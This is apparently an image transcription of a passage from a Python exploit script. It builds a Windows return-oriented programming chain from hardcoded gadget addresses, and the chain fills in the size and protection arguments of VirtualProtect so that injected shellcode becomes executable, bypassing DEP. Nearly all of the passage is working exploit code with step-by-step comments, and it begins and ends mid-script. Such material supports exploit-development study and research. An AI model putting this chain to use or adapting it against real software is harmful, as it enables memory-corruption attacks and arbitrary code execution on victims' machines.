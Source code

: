 ```python
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP gadget

# Replace VirtualProtect lpAddress placeholder with pointer to shellcode location
rop2 += struct.pack ('<L', 0x77e942cb)   # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop esi instruction in the last ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the last ROP gadget

# Preparing the VirtualProtect size parameter (third parameter)
# Changing EAX to equal the third parameter, size (0x300).
# Increase EDX 4 bytes (to reach the VirtualProtect size parameter placeholder.)
# Remember, EDX currently is located at the VirtualProtect lpAddress placeholder.
# The size parameter is located 4 bytes after the lpAddress parameter
# Lastly, point EAX to new EDX
rop2 += struct.pack ('<L', 0x41ad61cc)   # 0x41ad61cc: xor eax, eax ; ret ; (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e942cb)   # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop esi instruction in the above ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP gadget

# Preparing the VirtualProtect flNewProtect parameter (fourth parameter)
# Changing EAX to equal the fourth parameter, flNewProtect (0x40)
# Increase EDX 4 bytes (to reach the VirtualProtect flNewProtect placeholder.)
# Remember, EDX currently is located at the VirtualProtect size placeholder.
# The flNewProtect parameter is located 4 bytes after the size parameter.
# Lastly, point EAX to the new EDX
rop2 += struct.pack ('<L', 0x41ad61cc)  # 0x41ad61cc: xor eax, eax ; ret ; (1 found)
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x77bd6b18)	# 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
```